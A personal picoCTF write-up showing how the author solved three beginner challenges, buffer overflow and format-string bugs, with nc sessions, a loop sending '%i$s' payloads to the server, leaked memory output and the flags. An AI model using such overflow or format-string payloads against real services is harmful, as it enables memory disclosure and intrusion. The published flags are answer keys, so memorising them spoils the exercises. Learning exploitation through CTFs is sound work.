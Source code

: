 ## Buffer overflow 0

This was a really simple challenge which only required me to find a way to smash the stack, ergo, buffer overflow. The program given in the challenge would basically print out the flag if there was a segmentation fault which would happen if we spammed the input with any character

<br/>
Used the server connection : nc saturn.picoctf.net 57100

```
srinidhia@srinidhis-mbp ~ % nc saturn.picoctf.net 57100
Input: OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO
OOOOOOOOOOOOOOOOOOOOOOOOOOO
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

The flag : picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}

****

## Format String 0

I used the same principle as before
```
srinidhia@srinidhis-mbp ~ % nc mimas.picoctf.net 51547
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: ggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggg
gggggggggggggggggggggggggggggggggggggggggggg
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```

The flag : picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}

****

## Flag leak

```
srinidhia@srinidhis-mbp ~ % for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 49843; done
```
The above line written basically is to print the string value(%s) from the address which we get from the index(i.e;i). We're then piping the server connection.

Output :
```
Tell me a story and then I'll tell you one >> Here's a story -
%0$s
Tell me a story and then I'll tell you one >> Here's a story -
%1$s
Tell me a story and then I'll tell you one >> Here's a story -
a2�
Tell me a story and then I'll tell you one >> Here's a story -
�ú,
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
/
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
�.
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
�������
Tell me a story and then I'll tell you one >> Here's a story -
�(��gM,�gM,�gM,�gM,�gM,�gM,�gM,�hM,�
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
setresgid
Tell me a story and then I'll tell you one >> Here's a story -
��,�
Tell me a story and then I'll tell you one >> Here's a story -
��e�

Tell me a story and then I'll tell you one >> Here's a story -
setresgid
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
Tell me a story and then I'll tell you one >> Here's a story -
�Z��
Tell me a story and then I'll tell you one >> Here's a story -
ii
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
ii
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
$�
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
�(��g���g���g���g���g���g���g���h���
Tell me a story and then I'll tell you one >> Here's a story -
����������؉ǀ�u��^H�C�p��s��u��C
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
^C%
```
Amidst this, I got a significant part of the flag and after a while I just exited the long loop.
<br/>
<br/>

CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}

<br/>
The flag : picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
